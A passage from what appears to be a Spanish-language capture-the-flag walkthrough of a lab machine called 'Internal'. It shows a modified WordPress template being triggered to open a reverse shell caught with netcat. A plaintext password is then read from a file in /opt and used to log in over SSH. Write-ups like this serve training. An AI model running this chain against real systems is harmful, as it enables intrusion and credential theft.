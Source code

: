 ![](/assets/img/internal/shell.png)
Actualizamos el archivo y ahora para generar un error y que nos cargue este archivo que acabamos de modificar simplemente tenemos que buscar algo que no exista en el servidor.
```bash
❯ curl -s "http://internal.thm/blog/?p=13231231"
```
Por debajo obtenemos la shell.
```bash
❯ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.47.45] from (UNKNOWN) [10.10.132.175] 58960
bash: cannot set terminal process group (1096): Inappropriate ioctl for device
bash: no job control in this shell
www-data@internal:/var/www/html/wordpress$ whoami
whoami
www-data
www-data@internal:/var/www/html/wordpress$ 
```
## Movimiento lateral
Si listamos los archivos del directorio opt, vemos un archivo un poco extraño.
```bash
www-data@internal:/$ ls -la /opt/
total 16
drwxr-xr-x  3 root root 4096 Aug  3  2020 .
drwxr-xr-x 24 root root 4096 Aug  3  2020 ..
drwx--x--x  4 root root 4096 Aug  3  2020 containerd
-rw-r--r--  1 root root  138 Aug  3  2020 wp-save.txt
```
Si vemos su contenido nos dan la contraseña en texto claro del usuario aubreanna.
```bash
www-data@internal:/$ cat /opt/wp-save.txt 
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```
Conectemosnos por ssh con estas credenciales.
```bash
❯ sshpass -p 'bubb13guM!@#123' ssh aubreanna@internal.thm
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)
```